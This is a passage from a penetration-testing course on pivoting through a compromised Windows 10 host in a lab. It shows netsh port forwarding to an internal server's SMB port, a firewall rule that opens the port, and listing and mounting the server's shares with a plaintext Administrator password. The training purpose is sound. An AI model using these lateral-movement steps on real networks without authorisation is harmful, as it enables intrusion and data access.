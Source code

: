 For this section we will consider the following scenario:

During an assessment, we have compromised a Windows 10 target through a remote vulnerability and were able to successfully elevate our privileges to SYSTEM. After enumerating the compromised machine, we discover that in addition to being connected to the current network (10.11.0.x), it has an additional network interface that seems to be connected to a different network (192.168.1.x). In this internal subnet, we identify a Windows Server 2016 machine (192.168.1.110) that has TCP port 445 open.

To continue the scenario, we can now look for ways to pivot inside the victim network from the SYSTEM-level shell on the Windows 10 machine. Because of our privilege level, we do not have to deal with User Account Control (UAC), which means we can use the _netsh_ utility (installed by default on every modern version of Windows) for port forwarding and pivoting.

However, for this to work, the Windows system must have the _IP Helper_ service running and _IPv6_ support must be enabled for the interface we want to use. Fortunately, both are on and enabled by default on Windows operating systems.

We can check that the _IP Helper_ service is running from the Windows _Services_ program to confirm this:

![Figure 7: IP Helper service running](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/port_redirection_and_tunneling/b47f02d3bb0d8d154a6027a84543ce8c-port_redirection_and_tunneling_03.png)

We can confirm _IPv6_ support in the network interface's settings:

![Figure 8: IPv6 support enabled](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/port_redirection_and_tunneling/667f8ff58696f762f4d3407a71703e7e-port_redirection_and_tunneling_04.png)

Similar to the SSH local port forwarding example, we will attempt to redirect traffic destined for the compromised Windows 10 machine on TCP port 4455 to the Windows Server 2016 machine on port 445.

In this example, we will use the netsh (interface) context to add an IPv4-to-IPv4 (v4tov4) proxy (portproxy) listening on 10.11.0.22 (listenaddress=10.11.0.22), port 4455 (listenport=4455) that will forward to the Windows 2016 Server (connectaddress=192.168.1.110) on port 445 (connectport=445):

```
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```

Using netstat, we can confirm that port 4455 is listening on the compromised Windows host:

```
C:\Windows\system32> netstat -anp TCP | find "4455"                                              
TCP    10.11.0.22:4455        0.0.0.0:0              LISTENING 
```

By default, the Windows Firewall will disallow inbound connections on TCP port 4455, which will prevent us from interacting with our tunnel. Given that we are running with SYSTEM privileges, we can easily remedy this by adding a firewall rule to allow inbound connections on that port.

These netsh options are self-explanatory, but note that we allow (action=allow) specific inbound (dir=in) connections and leverage the firewall (advfirewall) context of netsh.

```
C:\Windows\system32> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
Ok.
```

As a final step, we can try to connect to our compromised Windows machine on port 4455 using smbclient. If everything has gone according to plan, the traffic should be redirected and the available network shares on the internal Windows Server 2016 machine should be returned.

As with our earlier scenario, Samba needs to be configured with a minimum SMB version of SMBv2. This is superfluous but we will include the commands here for completeness:

```
kali@kali:~$ sudo nano /etc/samba/smb.conf' 

kali@kali:~$ cat /etc/samba/smb.conf 
...
Please note that you also need to set appropriate Unix permissions
# to the drivers directory for these users to have write rights in it
;   write list = root, @lpadmin

min protocol = SMB2

kali@kali:~$ sudo /etc/init.d/smbd restart
[ ok ] Restarting smbd (via systemctl): smbd.service.

kali@kali:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator
Unable to initialize messaging context
Enter WORKGROUP\Administrator's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.11.0.22 failed (Error NT_STATUS_IO_TIMEOUT)
Failed to connect with SMB1 -- no workgroup available
```

We successfully listed the shares, but smbclient generated an error. This timeout issue is generally caused by a port forwarding error, but let's test this and determine if we can interact with the shares.

```
kali@kali:~$ sudo mkdir /mnt/win10_share

kali@kali:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share

kali@kali:~$ ls -l /mnt/win10_share/
total 1
-rwxr-xr-x 1 root root 7 Apr 17  2019 data.txt

kali@kali:~$ cat /mnt/win10_share/data.txt
data 

```

As demonstrated by the above commands, this error prohibits us from listing workgroups but it does not impact our ability to mount the share. The port forwarding was successful.